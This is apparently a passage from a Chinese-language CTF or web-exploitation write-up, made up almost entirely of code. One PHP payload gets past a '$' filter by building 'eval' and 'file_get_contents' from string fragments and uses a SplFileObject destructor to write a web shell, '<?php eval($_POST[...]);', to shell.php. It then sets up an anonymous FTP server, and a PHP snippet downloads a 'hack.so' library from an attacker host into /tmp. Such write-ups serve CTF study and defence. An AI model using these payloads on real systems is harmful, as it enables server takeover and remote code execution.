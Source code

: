   复制

  ```
  define("EV", "eva"."l");
  define("GETCONT", "fil"."e_get_contents");
  // 由于禁止了$，从已有的地方获取$符
  define("D",(GETCONT)('/var/www/html/index.php')[353]);
  define("SHELL","<?php ".EV."(".D."_POST['a']);");
  echo (GETCONT)('./shell.php');
  
  class splf extends SplFileObject {
  
      public function __destruct() {
          parent::fwrite(SHELL);
      }
  }
  define("PHARA", new splf('shell.php','w'));
  ```

- FTP

  Python开启FTP服务

  复制

  ```
  from pyftpdlib.authorizers import DummyAuthorizer
  from pyftpdlib.handlers import FTPHandler
  from pyftpdlib.servers import FTPServer
  
  authorizer = DummyAuthorizer()
  authorizer.add_anonymous("./")
  
  handler = FTPHandler
  handler.authorizer = authorizer
  handler.masquerade_address = "ip"
  # 注意要用被动模式
  handler.passive_ports = range(9998,10000)
  
  server = FTPServer(("0.0.0.0", 23), handler)
  server.serve_forever()
  ```

  PHP下载

  复制

  ```
  $local_file = '/tmp/hack1.so';
  $server_file = 'hack.so';
  $ftp_server = 'xxxxx';
  $ftp_port=21;
  
  $ftp = ftp_connect($ftp_server,$ftp_port);
  
  $login_result = ftp_login($ftp, 'anonymous', '');
  // 注意要开启被动模式
  ftp_pasv($ftp,1);
  
  if (ftp_get($ftp, $local_file, $server_file, FTP_BINARY)) {
      echo "Successfully written to $local_file\n";
  } else {
      echo "There was a problem\n";
  }
  
  ftp_close($ftp);
  ```
